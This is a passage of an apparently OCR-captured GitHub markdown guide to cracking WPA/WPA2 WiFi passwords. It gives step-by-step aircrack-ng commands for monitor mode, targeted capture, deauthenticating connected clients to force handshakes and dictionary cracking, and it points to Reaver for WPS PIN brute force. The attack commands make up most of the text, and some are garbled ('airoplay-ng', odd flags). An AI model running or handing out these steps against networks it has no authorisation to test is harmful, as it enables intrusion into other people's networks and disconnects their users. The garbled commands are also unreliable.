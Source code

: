 you will need a very good dictionary to crack the key
### Start monitor

```bash
airmon-ng start wlan0
```
Kill the listed processes
### Get BSSID of target

```bash
airodump-ng wlan0
```

copy the mac address desired and memorize the channel

new terminal
```bash
airodump-ng -c $chan --bssid $mac -w ~/Desktop/dumpfile
```

dump the data, here handshakes are needed not just data
you also see some more macs of connected stations that we'll need soon
### Force new handshakes

stop scanning instances if still running

```bash
airoplay-ng -0 -2 -a $ap-mac -c $client-mac mon0
```

repeat until you find on the correct channel

then deauthenticated the clients and captures the handshake
### Cracking cap file

after collecting some handshakes, you might start the cracking process

```bash
aircrack-ng -a 2 -b $ap-mac -w wordlistfile ~/Desktop/*.cap
```

## WPS (Medium)
---
An alternative to word lists may be the use of WPS "squatting". Reaver is a tool allowing to obtain a password using this method.

Depending on the target's Access Point (AP), to recover the plain text WPA/WPA2 passphrase, the average amount of time for the transitional online brute force method is between 4-10 hours. 

In practice, it will generally take half this time to guess the correct WPS pin and recover the passphrase. When using the offline attack, if the AP is vulnerable, it may take only a matter of seconds to minutes.

See the GitHub [repository](https://github.com/t6x/reaver-wps-fork-t6x) for more informations  

*Note: newer versions of wps are not vulnerable anymore*
